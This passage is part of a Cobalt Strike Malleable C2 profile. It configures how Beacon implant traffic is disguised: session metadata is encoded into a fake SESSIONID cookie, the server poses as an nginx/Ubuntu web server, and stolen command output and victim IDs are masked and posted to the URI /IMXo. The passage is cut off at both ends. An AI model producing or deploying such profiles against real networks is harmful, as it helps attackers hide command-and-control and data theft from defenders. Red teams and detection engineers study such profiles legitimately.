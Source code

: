```

	client {
		#header "Host" "aliyun.com";
		# base64 encode session metadata and store it in the Cookie header.
		metadata {
			base64url;
			prepend "SESSIONID=";
			header "Cookie";
		}
	}

	server {
		# server should send output with no changes
		#header "Content-Type" "application/octet-stream";
		header "Server" "nginx/1.10.3 (Ubuntu)";
    		header "Content-Type" "application/octet-stream";
        	header "Connection" "keep-alive";
        	header "Vary" "Accept";
        	header "Pragma" "public";
        	header "Expires" "0";
        	header "Cache-Control" "must-revalidate, post-check=0, pre-check=0";

		output {
			mask;
			netbios;
			prepend "data=";
			append "%%";
			print;
		}
	}
}

# define indicators for an HTTP 
http-post {
	# Same as above, Beacon will randomly choose from this pool of URIs [if multiple URIs are provided]
	set uri "/IMXo";
	client {
		#header "Content-Type" "application/octet-stream";				

		# transmit our session identifier as /submit.php?id=[identifier]
		
		id {				
			mask;
			netbiosu;
			prepend "user=";
			append "%%";
			header "User";
		}

		# post our output with no real changes
		output {
			mask;
			base64url;
			prepend "data=";
			append "%%";		
			print;
		}
	}

	# The server's response to our HTTP POST
	server {
		header "Server" "nginx/1.10.3 (Ubuntu)";
```